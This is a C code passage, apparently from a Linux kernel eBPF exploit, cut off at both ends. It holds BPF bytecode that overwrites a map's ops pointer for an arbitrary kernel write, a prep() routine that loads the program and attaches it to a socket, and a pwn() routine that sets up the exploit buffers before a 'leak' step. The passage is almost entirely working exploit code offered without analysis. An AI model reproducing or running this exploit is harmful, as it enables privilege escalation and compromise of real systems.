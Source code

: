 ```c
    BPF_LD_MAP_FD(9,3),             //r9 = ctrl_map_fd
    BPF_MAP_GET_ADDR(0,6),          //r6 = %ctrl_map
    BPF_ALU64_IMM(BPF_MOV,0,1),
    BPF_LDX_MEM(BPF_DW,0,7,0),      //r0 = [r7+0]
    BPF_STX_MEM(BPF_DW,6,0,0x10),   //r6+0x10 = r0 = ctrl_map[2]
    BPF_LDX_MEM(BPF_DW,0,7,0xc0),   //r0 = [r7+0xc0]
    BPF_STX_MEM(BPF_DW,6,0,0x18),   //r6+0x18 = r0 = ctrl_map[3]
    BPF_ALU64_IMM(BPF_ADD,0,0x50),  //r0 += 0x50 => element_addr
    
    BPF_LDX_MEM(BPF_DW,8,6,8),      //r8 = [r6+8] = ctrl_map[1]
    BPF_JMP_IMM(BPF_JNE,8,0x2,4),

    //arb write

    BPF_STX_MEM(BPF_DW,7,0,0),      //[r7] = [ops] = r0 = element_addr
    BPF_ST_MEM(BPF_W,7,0x18,BPF_MAP_TYPE_STACK),//[ops+0x18] = BPF_MAP_TYPE_STACK
    BPF_ST_MEM(BPF_W,7,0x24,-1),   //max_entries
    BPF_ST_MEM(BPF_W,7,0x2c,0),    //locak_off

	//exit
    BPF_ALU64_IMM(BPF_MOV,0,0),     //
    BPF_EXIT_INSN(),
};

void  prep(){
    ctrlmapfd = bpf_create_map(BPF_MAP_TYPE_ARRAY,sizeof(int),0x100,0x1);
    if(ctrlmapfd<0){ __exit(strerror(errno));}
    expmapfd = bpf_create_map(BPF_MAP_TYPE_ARRAY,sizeof(int),0x2000,0x1);
    if(expmapfd<0){ __exit(strerror(errno));}
    printf("ctrlmapfd: %d,  expmapfd: %d \n",ctrlmapfd,expmapfd);

    progfd = bpf_prog_load(BPF_PROG_TYPE_SOCKET_FILTER,
            insns, sizeof(insns), "GPL", 0);  
    if(progfd < 0){ __exit(strerror(errno));}

    if(socketpair(AF_UNIX, SOCK_DGRAM, 0, sockets)){
        __exit(strerror(errno));
    }
    if(setsockopt(sockets[1], SOL_SOCKET, SO_ATTACH_BPF, &progfd, sizeof(progfd)) < 0){ 
        __exit(strerror(errno));
    }
}

void pwn(){
    printf("pwning...\n");
    uint32_t key = 0x0;
    char *ctrlbuf = malloc(0x100);
    char *expbuf  = malloc(0x3000);

    uint64_t *ctrlbuf64 = (uint64_t *)ctrlbuf;
    uint64_t *expbuf64  = (uint64_t *)expbuf;

    memset(ctrlbuf,'A',0x100);
    for(int i=0;i<0x2000/8;i++){
        expbuf64[i] = i+1;
    }
    ctrlbuf64[0]=2;
    ctrlbuf64[1]=0;
    bpf_update_elem(ctrlmapfd,&key,ctrlbuf,0);
    bpf_update_elem(expmapfd,&key,expbuf,0);
    writemsg();

    // leak
```